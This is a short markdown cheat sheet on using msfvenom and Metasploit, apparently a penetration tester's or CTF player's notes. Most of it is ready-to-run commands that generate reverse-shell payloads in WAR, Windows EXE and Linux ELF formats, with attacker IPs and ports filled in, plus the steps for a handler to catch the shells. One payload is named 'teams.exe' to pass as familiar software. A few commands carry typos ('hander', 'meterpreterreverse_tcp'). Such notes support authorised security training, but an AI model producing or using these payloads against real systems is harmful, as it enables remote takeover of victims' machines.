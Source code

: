 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars


## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it

### List Payloads

```shell
msfvenom -l payloads
```


### Getting a cmd .exe payload

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>
```

Example:

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.8.120 LPORT=443 -f exe -o teams.exe
```

### Getting a powershell .exe payload

```shell
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>
```

### Create a elf payload

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```